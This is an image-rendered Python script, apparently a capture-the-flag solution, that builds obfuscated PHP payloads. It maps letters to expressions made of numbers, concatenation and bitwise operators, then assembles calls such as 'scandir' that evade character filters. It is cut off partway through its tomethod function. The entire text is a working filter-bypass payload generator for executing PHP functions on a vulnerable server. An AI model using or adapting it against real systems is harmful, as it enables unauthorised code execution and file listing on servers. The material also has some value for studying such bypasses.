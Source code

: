 ```python
    "l":"((((-1).(0)){0})&(((4).(0)){0}))|(~((0).(0)){0})&~((~((8).(0)){0})&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))))",
    "H": "(~((0).(0)){0})&~((~((8).(0)){0})&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))))",
    "Z" : "(~(((((-1).(0)){0})&(((4).(0)){0}))))&(~((~(((8).(0)){0}))&((~(((2).(0)){0}))&(~(((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))))))",
    "v" :"(((2).(0)){0})|((~((1).(0)){0})&((10000000000000000000).(1)){3})",
    "D" :"(~((1).(0)){0})&((10000000000000000000).(1)){3}",
    "A" :"(~((2).(0)){0})&(~((~((1).(0)){0})&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))))",
    "P" :"(~((1.1).(0)){1})&((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))",
    "O" :"(~((0).(0)){0})&(~((~((8).(0)){0})&((~((2).(0)){0})&(~((10000000000000000000).(1)){3}))))",
    "S" :"(~((((-1).(0)){0})&(((4).(0)){0})))&(~((~((2).(0)){0})&(~((10000000000000000000).(1)){3})))",
    "U" :"(((10000000000000000000).(1)){3})|((~((((-1).(0)){0})&(((4).(0)){0})))&(~((~((1).(0)){0})&(~((1.1).(0)){2}))))",
    "_" :"((10000000000000000000).(1)){3}|(((~((((-1).(0)){0})&(((4).(0)){0})))&(~((~((1).(0)){0})&(~((1.1).(0)){1})))))",
    "T" :"(~(((1).(0)){0}&(~((2).(0)){0})))&(~((~((10000000000000000000).(1)){3})&(~(((1).(0)){0}&(~((1.1).(0)){1})))))",
    "I" :"(~(((0).(0)){0}))&(~((~((8).(0)){0})&((~((1).(0)){0})&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))))))",
    "N" :"(~((0).(0)){0})&(~((~((8).(0)){0})&((~(((2).(0)){0}))&(~((~((1).(0)){0})&((10000000000000000000).(1)){3})))))",
    "f" :"((((-1).(0)){0})&(((4).(0)){0}))|((~(((4).(0)){0}))&(~((~(((2).(0)){0}))&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))))))",
    "B" :"(~(((4).(0)){0}))&(~((~(((2).(0)){0}))&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))))",
    "r" :"(~((~(((2).(0)){0}))&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))))",
    "[" :"(~(((((-1).(0)){0})&(((4).(0)){0}))))&(~((~((8).(0)){0})&((~(((2).(0)){0}))&(~(((10000000000000000000).(1)){3})))))",
    "]" :"(((10000000000000000000).(1)){3})|((((8).(0)){0})&(~(((((-1).(0)){0})&(((4).(0)){0})))))",
    "C":"(~(((4).(0)){0}))&(~((~(((2).(0)){0}))&(~(((10000000000000000000).(1)){3}))))",
    "M":"(~(((0).(0)){0}))&(~((~(((8).(0)){0}))&(~(((10000000000000000000).(1)){3}))))",
    "\\":"(~(((((1).(0)){0}))&(~(((2).(0)){0})))&~((~(((10000000000000000000).(1)){3}))&~((((8).(0)){0})&(~(((((-1).(0)){0})&(((4).(0)){0})))))))",
    "/":"((((1.1).(0)){1})|(((-1).(0)){0}))",
    "G":"(~(((8).(0)){0}))&(~((~(((2).(0)){0}))&(~(((10000000000000000000).(1)){3}))))",
    "g":"(((10000000000000000000).(1)){3})|((((2).(0)){0})&(((1.1).(0)){1}))",
    "a":"((((1).(0)){0})&((~((2).(0)){0})))|((((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))&(~((((1).(0)){0})&(~(((1.1).(0)){1})))))"
    }
s="scandir"
def topayload(s):
    result=""
    for i in s:
        if(i in arr):
            result+=("("+arr[i]+")"+".")
            continue
        if(i.upper() in arr):
            result+=("("+arr[i.upper()]+")"+".")
            continue
        if(i.lower() in arr):
            result+=("("+arr[i.lower()]+")"+".")
    return result[:-1]
def tomethod(meth,para,c=True):
    if c:
        return "("+topayload(meth)+")("+topayload(para)+")"
    else :
```